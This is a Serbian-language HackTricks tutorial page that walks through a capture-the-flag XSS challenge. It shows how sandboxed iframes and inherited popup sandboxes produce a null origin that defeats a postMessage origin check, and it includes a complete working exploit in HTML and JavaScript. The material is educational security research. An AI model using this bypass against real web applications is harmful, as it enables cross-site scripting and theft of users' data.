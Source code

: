 # Bypassing SOP with Iframes - 1

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Iframeovi u SOP-1

U ovom [**izazovu**](https://github.com/terjanq/same-origin-xss) kreiranom od strane [**NDevTK**](https://github.com/NDevTK) i [**Terjanq**](https://github.com/terjanq) trebate iskoristiti XSS u kodiranom

```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
const data = e.data;
if (e.origin !== window.origin && data.identifier !== identifier) return;
if (data.type === 'render') {
renderContainer.innerHTML = data.body;
}
}
```

Glavni problem je što [**glavna stranica**](https://so-xss.terjanq.me) koristi DomPurify za slanje `data.body`, pa da biste poslali svoje HTML podatke tom kodu, morate **zaobići** `e.origin !== window.origin`.

Pogledajmo rešenje koje predlažu.

### Zaobilaženje SOP-a 1 (e.origin === null)

Kada je `//example.org` ugrađen u **sandbox iframe**, tada će **poreklo** stranice biti **`null`**, tj. **`window.origin === null`**. Dakle, samo ugrađivanjem iframe-a putem `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` možemo **nametnuti `null` poreklo**.

Ako je stranica **ugrađiva**, mogli biste zaobići tu zaštitu na taj način (kolačići takođe mogu zahtevati postavljanje na `SameSite=None`).

### Zaobilaženje SOP-a 2 (window.origin === null)

Manje poznata činjenica je da kada je postavljena vrednost **sandbox atributa `allow-popups`**, tada će **otvoreni popup** naslediti sve **sandbox atribute** osim ako nije postavljeno `allow-popups-to-escape-sandbox`.\
Dakle, otvaranje **popupa** iz **nultog porekla** će učiniti da je **`window.origin`** unutar popupa takođe **`null`**.

### Rešenje izazova

Stoga, za ovaj izazov, mogli biste **kreirati** iframe, **otvoriti popup** na stranici sa ranjivim XSS kodom (`/iframe.php`), jer je `window.origin === e.origin` jer su oba `null`, moguće je **poslati payload koji će iskoristiti XSS**.

Taj **payload** će dobiti **identifikator** i poslati **XSS** natrag na vrh stranice (stranica koja otvara popup), **koja će promeniti lokaciju** na ranjivu `/iframe.php`. Zato što je identifikator poznat, nije važno da uslov `window.origin === e.origin` nije ispunjen (zapamtite, poreklo je **popup** iz iframe-a koji ima **poreklo** **`null`**) jer je `data.identifier === identifier`. Zatim će se **XSS ponovo pokrenuti**, ovaj put na pravom poreklu.

```html
<body>
<script>
f = document.createElement('iframe');

// Needed flags
f.sandbox = 'allow-scripts allow-popups allow-top-navigation';

// Second communication with /iframe.php (this is the top page relocated)
// This will execute the alert in the correct origin
const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
},1000);`.replaceAll('\n',' ');

// Initial communication
// Open /iframe.php in a popup, both iframes and popup will have "null" as origin
// Then, bypass window.origin === e.origin to steal the identifier and communicate
// with the top with the second XSS payload
f.srcdoc = `
<h1>Click me!</h1>
<script>
onclick = e => {
let w = open('https://so-xss.terjanq.me/iframe.php');
onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
setTimeout(_ => {
w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
}, 1000);
};
<\/script>
`
document.body.appendChild(f);
</script>
</body>
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
